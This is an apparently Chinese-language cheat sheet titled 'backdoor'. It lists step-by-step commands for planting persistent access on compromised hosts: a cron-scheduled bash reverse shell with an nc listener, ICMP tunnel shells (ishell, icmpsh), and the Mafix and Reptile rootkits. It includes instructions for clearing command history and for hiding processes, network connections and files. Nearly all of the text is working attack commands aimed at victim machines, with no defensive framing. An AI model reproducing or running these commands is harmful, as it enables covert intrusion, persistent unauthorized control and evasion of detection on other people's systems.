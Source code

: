 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html
